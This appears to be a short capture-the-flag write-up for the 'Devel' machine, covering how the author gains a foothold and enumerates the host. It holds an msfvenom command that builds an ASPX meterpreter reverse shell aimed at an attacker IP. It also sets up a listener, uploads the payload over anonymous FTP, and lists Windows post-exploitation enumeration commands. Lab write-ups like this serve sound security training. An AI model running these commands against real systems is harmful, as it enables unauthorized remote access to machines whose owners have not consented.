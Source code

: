 ## Gaining a Foothold

### Devel (Using MSF conditions)  

**Initial Enum / RevShell Payload:**  
Nmap scan > iis server and ftp anonymous login identified > login ftp server and `PUT` test file sucessful > use msfvenom to generate a reverse tcp shell in aspx (since target is hosting iis)

`msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.10.05 LPORT=4444 -f aspx -o reverse.aspx`  

![image](https://github.com/user-attachments/assets/3db1aa08-39b4-45d2-afbe-01710f16b7cd)

**Listener with msfconsole multi handler:**  
msfconsole > use exploit/multi/handler > options > set payload windows/meterpreter/reverse_tcp > set LHOST ATTACKERIP > set LPORT 4444 > run

**Upload payload to iis:**  
ftp anonyomous login > `PUT reverse.aspx` > load http://victim/reverse.aspx (to trigger meterpreter reverse shell connection)  

#### System Enumeration  
now that we are a low level user, we repeat the cycle of information gathering, scanning enumeration and further exploitation.  

meterpreter: shell  
`systeminfo`  
`hostname`  
patching checks (windows management instrumentation command line + quick fix engineering) : `wmic qfe` or `wmic qfe get Caption,Description,HotFixID,InstalledOn` for a cleaner view  
driver enumeration: `wmic logicaldisk get caption,description,providername`

#### User Enumeration  
check hostname and user logged in`whoami`  
check current priviliges `whoami /priv`  
groups you belong to `whoami /groups`
users on the host `net user`  
enum found users `net user exampleuser`  
list all local group memberships `net localgroup`  
list all users in the administrator group `net localgroup administrators`  

#### Network Enumeration  
`ipconfig`  
`ipconfig /all`  
`arp -a`  
(check where else the host is connecting to) `route print`  
(where is the host connecting to and what ports are open, if new connections / ports are found only internally and not frem an external scan it could provide ideas such as the potential port forward,) `netstat -ano`  

#### Password Hunting
